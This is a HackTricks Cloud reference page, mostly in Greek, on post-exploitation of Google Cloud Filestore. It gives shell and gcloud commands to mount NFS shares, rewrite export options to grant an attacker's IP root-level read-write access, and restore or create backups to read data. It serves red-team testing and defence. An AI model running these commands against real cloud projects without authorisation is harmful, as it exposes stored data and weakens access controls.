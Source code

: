 # GCP - Filestore Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Filestore

Για περισσότερες πληροφορίες σχετικά με το Filestore ελέγξτε:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Mount Filestore

Ένα κοινόχρηστο σύστημα αρχείων **μπορεί να περιέχει ευαίσθητες πληροφορίες** που είναι ενδιαφέρουσες από την προοπτική ενός επιτιθέμενου. Με πρόσβαση στο Filestore είναι δυνατό να **τοποθετηθεί**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

Για να βρείτε τη διεύθυνση IP μιας παρουσίας filestore, ελέγξτε την ενότητα αρίθμησης της σελίδας:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Αφαίρεση Περιορισμών και απόκτηση επιπλέον δικαιωμάτων

Εάν ο επιτιθέμενος δεν βρίσκεται σε μια διεύθυνση IP με πρόσβαση στο κοινόχρηστο, αλλά έχετε αρκετά δικαιώματα για να το τροποποιήσετε, είναι δυνατόν να αφαιρέσετε τους περιορισμούς ή την πρόσβαση σε αυτό. Είναι επίσης δυνατό να παραχωρήσετε περισσότερα προνόμια στη διεύθυνση IP σας για να έχετε διαχειριστική πρόσβαση στο κοινόχρηστο:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Restore a backup

Αν υπάρχει ένα αντίγραφο ασφαλείας, είναι δυνατόν να **το επαναφέρετε** σε μια υπάρχουσα ή σε μια νέα παρουσία ώστε οι **πληροφορίες του να γίνουν προσβάσιμες:**
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### Δημιουργία αντιγράφου ασφαλείας και αποκατάσταση

Αν **δεν έχετε πρόσβαση σε ένα κοινόχρηστο και δεν θέλετε να το τροποποιήσετε**, είναι δυνατόν να **δημιουργήσετε ένα αντίγραφο ασφαλείας** από αυτό και να το **αποκαταστήσετε** όπως αναφέρθηκε προηγουμένως:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
